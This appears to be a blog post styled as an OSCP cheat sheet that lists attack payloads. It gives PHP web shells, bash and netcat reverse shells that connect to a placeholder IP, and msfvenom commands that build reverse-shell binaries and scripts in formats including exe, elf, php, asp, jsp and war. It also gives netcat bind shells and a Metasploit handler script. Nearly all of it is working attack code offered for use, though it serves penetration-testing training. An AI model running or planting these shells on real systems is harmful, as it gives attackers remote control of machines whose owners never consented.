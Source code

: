 ```yaml
---
title: Payloads
author: linatl
date: "2021-03-06 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Webshells
```
Kali ready-to-go webshells
/usr/share/webshells/
/usr/share/seclists/Web-Shells/

PHP code for a simple web shell:
<?=`$_GET[0]`?>
<?php echo shell_exec($_GET['cmd']); ?
<?php $cmd=$_GET['cmd']; system($cmd);?>

PHP to immediately pop a shell
<?php $sock=fsockopen("192.168.1.1",443); exec("/bin/sh -i <&3 >&3 2>&3");?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.1/443 0>&1'");?>
```

###### Pop a shell from command line
```
Bash
> bash -i >& /dev/tcp/192.168.1.1/443 0>&1

Netcat
> nc -e /bin/bash 192.168.1.1 443

```

###### Ready-to-go reverse shell payloads
```
Nishang
https://github.com/samratashok/nishang

PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings

Pentestmonkey Cheatsheet
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Shell Spawning with NetSec
https://netsec.ws/?p=337
```

###### List msfvenom payload options
```
> msfvenom -l payloads | grep php
> msfvenom -l archs
> msfvenom -l formats
```

###### Windows payloads for in a python script
```
Unstaged payload
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt

Staged payload
> msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt
```

###### PHP reverse shell
```
> msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=443 -f raw > shell.php

Need to add the <?php at the first line of the file so that it will execute as a PHP webpage.
```

###### .elf reverse shell
```
x86
> msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
x64
> msfvenom -p linux/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
```

###### .sh reverse shell
```
> msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.1 LPORT=443 -f raw > shell.sh
```

###### .exe reverse shell
```
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > shell.exe
```

###### Some more reverse shells
```
.asp
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f asp > shell.asp
.jsp
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f raw > shell.jsp
.war
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f war > shell.war
```

###### Netcat reverse shell
```
Set up a listener
 > nc -nvlp 443

Connect to the listener (Windows)
 > nc -nv 192.168.1.1 443 -e cmd.exe
Connect to the listener (Linux)
 > nc -nv 192.168.1.1 443 -e /bin/bash
```

###### Netcat bind shell
```
Set up a listener (bind shell) (Windows target)
 > nc -nvlp 10.10.10.10 443 -e cmd.exe
Set up a listener (bind shell) (Linux target)
 > nc -nvlp 10.10.10.10 443 -e /bin/bash

Connect to the listener
> nc -nv 192.168.1.1 443
```

###### Metasploit Multi Handler (.rc script)
```
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.1.1
set LPORT 443
set ExitOnSession false
exploit -j -z
```
